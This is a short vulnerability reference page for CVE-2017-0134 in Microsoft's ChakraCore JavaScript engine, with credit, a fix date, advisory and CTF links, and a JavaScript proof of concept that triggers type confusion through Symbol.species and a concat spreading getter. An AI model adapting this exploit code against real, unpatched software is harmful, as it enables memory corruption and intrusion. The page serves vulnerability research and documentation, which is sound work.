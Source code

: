 # CVE-2017-0134

- Fix: Mar 2017
- Credit: Jordan Rabet, Microsoft Offensive Security Research Team

## PoC

PoC from [eboda](https://github.com/eboda)

```javascript
var a1 = [];
for (var i = 0; i < 0x100; i++) {
    a1[i] = i;
}
var a2 = [lower(addr), upper(addr)];
var c = new Function();
c[Symbol.species] = function() {
    new_array = [];
    return new_array;
};
a1.constructor = c;
a2.__defineGetter__(Symbol.isConcatSpreadable, function () {
    new_array[0] = {};
    return true;
});
var res = a1.concat(a2);
res[0x100/2];
```

## Reference

- [Microsoft (MS17-007)](https://technet.microsoft.com/en-us/library/security/ms17-007.aspx)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/aba05079c1cbb4b09039655a3e4195578f7c5031)
- [Plaid CTF 2017 (1)](https://lokalhost.pl/ctf/pcft2017_chakra.js)
- [Plaid CTF 2017 (2)](https://gist.github.com/eboda/18a3d26cb18f8ded28c899cbd61aeaba)
